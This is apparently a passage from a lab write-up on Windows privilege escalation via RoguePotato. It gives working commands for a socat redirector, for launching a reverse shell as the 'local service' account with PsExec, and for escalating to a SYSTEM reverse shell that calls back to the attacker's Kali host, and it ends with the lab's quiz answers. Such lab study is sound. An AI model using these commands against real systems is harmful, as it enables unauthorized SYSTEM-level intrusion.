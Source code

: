 Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows:

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.37.130:9999
```

Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

Start another listener on Kali.

Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

```
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```

Answer the questions below

| Question                                                        | Answer                        |
| --------------------------------------------------------------- | ----------------------------- |
| Name one user privilege that allows this exploit to work.       | SeImpersonatePrivilege        |
| Name the other user privilege that allows this exploit to work. | SeAssignPrimaryTokenPrivilege |

